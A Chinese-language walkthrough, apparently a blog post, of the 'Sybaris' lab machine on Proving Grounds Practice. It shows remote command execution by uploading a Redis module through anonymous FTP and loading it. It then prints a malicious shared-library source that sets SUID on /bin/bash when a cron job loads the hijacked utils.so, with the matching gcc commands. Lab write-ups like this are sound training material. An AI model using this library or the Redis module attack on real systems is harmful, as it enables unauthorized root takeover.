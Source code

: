 ```yaml
---
title: Proving Grounds Practice-Sybaris
date: 2025-6-30 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

## nmap

![image-20250630110802291](./Sybaris/image-20250630110802291.png)



# redis加载模块

这个靶机考察了redis加载模块攻击，可以通过上传redis模块进行命令执行

## ftp上传模块

https://github.com/n0b0dyCN/RedisModules-ExecuteCommand

使用make编译之后，使用ftp上传到靶机，该靶机的ftp存在匿名认证，并且可以上传

![image-20250630134228268](./Sybaris/image-20250630134228268.png)

## redis加载模块

redis也可以匿名认证，通过MODULE load 加载模块

![image-20250630134427290](./Sybaris/image-20250630134427290.png)

然后就可以命令执行

![image-20250630134500225](./Sybaris/image-20250630134500225.png)

![image-20250630140339959](./Sybaris/image-20250630140339959.png)

![image-20250630140506383](./Sybaris/image-20250630140506383.png)

# 提权

有一个每分钟的自动定时任务，运行这个任务缺少utils.so

![image-20250630145513737](./Sybaris/image-20250630145513737.png)

![image-20250630145529344](./Sybaris/image-20250630145529344.png)

提权思路：上传一个恶意的c文件，利用gcc编译为so文件，定时任务运行时就会执行恶意的c文件，利用ftp上传

```c
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    setuid(0);
    setgid(0);
    printf("I'm the bad library\n");
    system("chmod +s /bin/bash");
}
```

```shell
find / -writable 2>/dev/null
```

查找可写的目录

![image-20250630145817515](./Sybaris/image-20250630145817515.png)

```
gcc -shared -fPIC /usr/tmp/privilege.c -o utils.so
```

将编译后的文件给予执行权限放到`/usr/local/lib/dev`下，然后等待计划任务执行

![image-20250630150013805](./Sybaris/image-20250630150013805.png)

![image-20250630150020743](./Sybaris/image-20250630150020743.png)